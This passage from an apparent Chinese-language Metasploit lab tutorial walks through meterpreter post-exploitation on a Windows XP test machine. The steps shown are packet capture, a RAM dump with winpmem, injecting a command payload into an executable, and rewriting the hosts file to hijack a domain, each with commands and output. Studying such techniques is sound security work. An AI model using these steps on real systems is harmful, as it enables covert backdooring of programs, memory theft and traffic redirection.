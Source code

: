 ```bash
[*] PCAP file written to xp_1.pcap
```

然后就可以在Wireshark中查看：

![Bildschirmfoto 2018-10-30 um 10.21.25 PM.png]({{ site.url }}/images/metasploit/D51ABD30003AE5D8F594119B1597E892.png)

#### Dump内存

```bash
meterpreter > load winpmem
Loading extension winpmem...Success.

meterpreter > dump_ram
[-] Usage: dump_ram [output_file]
meterpreter > dump_ram xp_ram.dat
[+] Driver PMEM loaded successfully
[+] Dumping 1073741824 bytes (press Ctrl-C to abort)

^C[*] Unloading driver
[-] Error running command dump_ram: Interrupt
```

这个功能有点生猛。

#### PE文件注入

向一个PE文件中注入payload。这样一来，当这个PE文件运行时，我们的payload会一起运行，很酷吧！

```bash
meterpreter > load peinjector
Loading extension peinjector...Success.

meterpreter > injectpe -p windows/exec -o cmd=calc -t bof-server.exe
[*] Generating payload
[*] Injecting Windows Execute Command into the executable bof-server.exe
[+] Successfully injected payload into the executable: bof-server.exe
```

测试：

![Bildschirmfoto 2018-10-30 um 10.35.12 PM.png]({{ site.url }}/images/metasploit/C84EDC0120E201F9B6D5F4F0A850F627.png)

参考`lib/rex/post/meterpreter/extensions/peinjector/peinjector.rb`可以了解一下它的原理。


#### host文件注入

这个也挺好玩：劫持静态域名解析。

```
msf exploit(rambo/my_dep_no) > use post/windows/manage/inject_host
msf post(windows/manage/inject_host) > set DOMAIN www.4399.com
DOMAIN => www.4399.com
msf post(windows/manage/inject_host) > set IP 172.16.56.1
IP => 172.16.56.1
msf post(windows/manage/inject_host) > set SESSION 5
SESSION => 5
msf post(windows/manage/inject_host) > exploit

[*] Inserting hosts file entry pointing www.4399.com to 172.16.56.1..
[+] Done!
[*] Post module execution completed
```
